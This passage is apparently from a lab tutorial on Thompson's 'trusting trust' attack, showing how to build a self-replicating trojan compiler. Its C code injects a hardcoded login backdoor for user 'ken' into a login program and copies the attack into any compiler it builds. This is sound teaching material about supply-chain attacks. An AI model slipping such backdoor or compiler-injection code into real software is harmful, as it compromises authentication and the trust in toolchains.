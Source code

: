 We can see our `printf` message being printed:

```text
compile:18: could have run your attack here!!
```

This is not very interesting. We want the `login` compiled with `cc-attacked` to also have the ability to inject code, but currently `cc-attacked` does nothing special other than printing out this message.

We will look at how to make `cc-attacked` do these more evil things in the next step.

## Step 3 - Making the "Compiler" Self-Replicating

In step 3, we will develop a more powerful version of `step2/trojan-cc1.c`, named `step3/trojan-cc2.c`. As described in the previous step, we want to make the new compiler `cc-attacked` compiled with our `trojan-cc2` compiler to also behave like `trojan-cc2`. In other words, we want `trojan-cc2`'s children (and grandchildren, greatgrandchildren, etc.) to continue to generate hacked compilers and hacked `login` programs. This is tricky, and we will use our `string-to-char-array` technique from step 1.

To achieve this, we will need to insert our attack code from step 2 into the compiler that `trojan-cc2` compiles. Instead of injecting a `printf` statement, we can inject the entire attack code! We place our attack code in `step3/attack.c`:

```c
    // not a very robust finger-print, but what can you do.
    // in a real compiler we would do this match on the parse tree,
    // which strips out some non-essential features.
    static char compile_sig[] =
            "static void compile(char *program, char *outname) {\n"
            "    FILE *fp = fopen(\"./temp-out.c\", \"w\");\n"
            "    assert(fp);"
            ;

    static char login_sig[] = "int login(char *user) {";
    static char login_attack[] = "if(strcmp(user, \"ken\") == 0) return 1;";

    /* your code goes here */
    char *login_sig_loc = strstr(program, login_sig);
    if (login_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t login_attack_offset = login_sig_loc - program + strlen(login_sig);
        strcpy(tmp, program + login_attack_offset);
        strcpy(program + login_attack_offset, login_attack);
        strcpy(program + login_attack_offset + strlen(login_attack), tmp);
    }

    char *compile_sig_loc = strstr(program, compile_sig);
    if (compile_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t compile_attack_offset = compile_sig_loc - program + strlen(compile_sig);
        strcpy(tmp, program + compile_attack_offset);
        strcpy(program + compile_attack_offset, compile_attack);
        strcpy(program + compile_attack_offset + strlen(compile_attack), tmp);
    }
```
